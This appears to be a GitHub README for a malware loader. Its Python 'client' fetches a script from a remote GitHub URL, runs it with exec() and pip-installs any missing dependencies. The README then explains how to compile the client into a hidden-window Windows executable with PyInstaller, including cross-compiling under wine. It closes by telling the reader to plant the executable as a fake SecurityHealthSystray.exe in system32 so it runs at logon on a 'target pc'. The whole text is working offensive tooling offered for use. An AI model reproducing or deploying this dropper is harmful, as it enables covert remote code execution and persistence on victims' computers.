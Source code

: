 # Client example
```python
import os
import sys
import time
import requests
import subprocess

def has_internet():
    try:
        response = requests.get("https://raw.githubusercontent.com/slayy2357/payload1/main/temp.py")
        if response.status_code == 200 and "#don't delete" in response.text:
            return True, response.text
        else:
            return False, None
    except Exception as e:
        print(f"Error checking internet: {e}")
        return False, None

def execute_payload(payload):
    try:
        exec(payload, globals())
    except Exception as e:
        if isinstance(e, ModuleNotFoundError):
            module_name = str(e).split("'")[1]
            print(module_name)
            install_module(module_name)
        else:
            print(f"Error executing downloaded script: {e}")
            raise

def install_module(module_name):
    try:
        subprocess.check_call([sys.executable, "-m", "pip", "install", module_name])
    except subprocess.CalledProcessError as e:
        print(f"Error installing module {module_name}: {e}")
        raise

connected, payload = has_internet()

if connected:
    print("Downloading payload successful.")
    try:
        execute_payload(payload)
    except Exception as e:
        print(f"Error during execution: {e}")
else:
    print("Failed to download payload or invalid content.")
```
## How to make client autorun
### If you are on windows (and target pc is on windows)
Install requests (and all your client.py dependencies):
```bash
pip install requests
```
Install pyinstaller :
```bash
pip install pyinstaller
```
Compile client to executable :
```bash
pyinstaller client.py --onefile --noconsole
```
### If you are on linux (and target pc is on windows)
Install wine, download python 64bit .exe installer then start cmd :
```bash
wine cmd
```
Install python (replace with real name):
```bash
pythoninstaller.exe
```
Install requests (and all your client.py dependencies):
```bash
pip install requests
```
Then install pyinstaller :
```bash
pip install pyinstaller
```
And finally, compile to .exe :
```bash
pyinstaller client.py --onefile --noconsole
```
## Finally :
Now whether you are on Linux or Windows, you have your client in ```dist/*.exe```, it can be injected as ```SecurityHealthSystray.exe``` for autorun on user logon (```C:\Windows\system32\SecurityHealthSystray.exe```)